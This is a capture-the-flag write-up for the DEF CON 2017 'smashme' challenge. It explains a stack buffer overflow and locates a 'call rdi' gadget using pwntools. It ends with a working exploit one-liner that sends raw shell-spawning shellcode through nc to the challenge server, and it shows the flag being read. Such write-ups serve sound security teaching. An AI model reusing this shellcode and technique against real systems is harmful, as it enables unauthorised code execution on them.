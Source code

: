 # Writeup
The challenge gives the smashme executable and that's all.
Doing a reverse engineering, we can note two things:

1- The executable does not have any security protections. For example, the stack is executable.

2- The main function reads some bytes from stdin and has a buffer overflow vulnerability. 

![smashme1](https://cloud.githubusercontent.com/assets/1280700/25631344/76b71cfc-2f46-11e7-9bdc-5c29e8bb47f5.png)

3- The function sub_400320 refers to the strstr function. It means that to exploit the return, our 
input must have the string "Smash me outside, how bout dAAAAAAAAAAA" before any null byte.

A payload that reaches the return address is: *BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBSmash me outside, how bout dAAAAAAAAAAACCCCCCCC*, where CCCCCCCC is the return address.
Setting a breakpoint before the ret instruction (0x0000000000400a0f):

![smashme2](https://cloud.githubusercontent.com/assets/1280700/25631345/788d6054-2f46-11e7-8f9e-29e37621005e.png)

The problem is that ASLR is enabled remotely. Which address should we use for the return? Luckly,
the pointer for our string is stored in RDI (*RDI  0x7fffffffddf0 ◂— u'BBBBBBBBBBBBBBB...'*).
Therefore, we can replace the B's with our shellcode and look for any *jmp RDI* or *call RDI*
operation. The code of the executable does not have any of these instructions. However, the bytes 
that compose these instructions are very simple. For example, we can find the corresponding bytes
of *call RDI* in 0x403582.

```python
>>> from pwn import *
>>> context.arch = "amd64"
>>> asm("call rdi")
'\xff\xd7'
>>> binary = elf.load("smashme")
[*] '/home/pedroysb/HTools/ctf/ctf-writeups/defcon-qualifier-2017/smashme/smashme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
>>> hex(next(binary.search("\xff\xd7")))
'0x403582'
```

Thus, we can build our payload and get a shell:
```
$ (python -c 'print("\x90\x90\x90\x90\x90\x90\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05Smash me outside, how bout dAAAAAAAAAAA" + "\x82\x35\x40\x00\x00\x00\x00\x00")'; cat) | nc smashme_omgbabysfirst.quals.shallweplayaga.me 57348
Welcome to the Dr. Phil Show. Wanna smash?
ls
flag
smashme
cat flag
The flag is: You must be at least this tall to play DEF CON CTF 5b43e02608d66dca6144aaec956ec68d
```
